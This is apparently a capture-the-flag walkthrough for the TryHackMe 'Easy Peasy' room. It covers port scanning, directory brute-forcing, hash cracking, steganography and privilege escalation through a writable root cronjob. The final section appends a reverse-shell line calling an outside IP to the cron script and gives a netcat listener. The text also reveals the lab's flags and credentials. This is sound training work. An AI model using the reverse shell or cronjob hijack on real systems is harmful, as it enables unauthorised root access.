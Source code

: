 ```yaml
---
title: Walkthrough - Easy Peasy
published: True
---
```


Practice using tools such as Nmap and GoBuster to locate a hidden directory to get initial access to a vulnerable machine. Then escalate your privileges through a vulnerable cronjob.

[https://tryhackme.com/room/easypeasyctf](https://tryhackme.com/room/easypeasyctf)

* * *

## Notes

- Perform an nmap scan ``sudo nmap -Pn -sS -p- -T4 10.10.140.191 -vvv`` while waiting for results check webserver and start gobuster
- ``gobuster dir -u http://10.10.140.191 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt -t 100 --no-error``

Find a hidden directory with nothing else there but we can further enumerate and gobust that one.

```shell
PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.16.1
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.43 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- gobuster found ``/hidden/whatever`` inside the source code we find base64 ``ZmxhZ3tmMXJzN19mbDRnfQ==`` and our first flag
- time to gobust the other server on port 65524

![0xskar](/assets/easy-peasy-flag03.png)

- we find robots.txt on 65524

```html
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```

- ``gobuster dir -u http://10.10.140.191:65524/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 -x txt --no-error -a a18672860d0510e5ab6699730763b250``
- Turns out the user agent is a md5 hash for our second flag

- after a few hours i guess haveto be more careful about looking through source code. Found base encoded data that i threw into cyberchef to decode. it's not your regular base32 or 64 or 58 encode. This leads us to another hidden directory.

![0xskar](/assets/easy-peasy04.png)

- lets check out ``/n0th1ng3ls3m4tt3r``
- download the jpg.
- also found ``940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81`` in the source code. save to ``nothingelsematters.hash`` and feed it to john
- ``john nothingelsematters.hash --wordlist=easypeasy.txt --format=gost`` gives us ``mypasswordforthatjob``
- ``stegseek binarycodepixabay.jpg ./easypeasy.txt`` gives us ``secrettext.txt`` with credentials and a password in binary. Wait its actually ASCII and ``iconvertedmypasswordtobinary``
- credentials ``boring:iconvertedmypasswordtobinary``

* * * 

## What is the user flag?

- affine cipher - A=1,B=13

* * * 

## What is the root flag?

- ``cat /etc/crontab`` we find ``* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh``
- ``echo "sh -i >& /dev/tcp/10.2.127.225/6670 0>&1" >> .mysecretcronjob.sh``
- on attacker machine ``nc -nvlp 6670`` then ``cat /root/.root.txt``

* * * 

